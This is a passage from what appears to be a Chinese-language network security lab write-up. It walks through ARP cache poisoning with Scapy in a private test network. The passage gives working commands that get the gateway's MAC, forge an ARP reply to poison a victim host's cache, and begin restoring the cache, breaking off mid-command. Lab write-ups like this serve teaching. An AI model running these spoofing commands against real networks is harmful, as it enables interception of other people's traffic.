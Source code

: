         # pdst= 172.16.111.1

    >>> recved = srp(arpbroadcast, timeout=2)
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    >>> gw_mac = recved[0][0][1].hwsrc
    >>> gw_mac
    '08:00:27:53:e0:03'
    >>> arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")
    >>> sendp(arpspoofed)
    .
    Sent 1 packets.
    ```

    ![scapy命令](./img/scapy.png)
2. 在受害者主机查看`ARP`缓存

    ![伪造成功](./img/arp伪造.png)
3. 在攻击者主机执行命令，恢复`ARP`缓存
    ```bash
    >>> restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:53:e0:03", pdst="172.16.111.126", hwdst=
    ...: "08:00:27:66:71:85")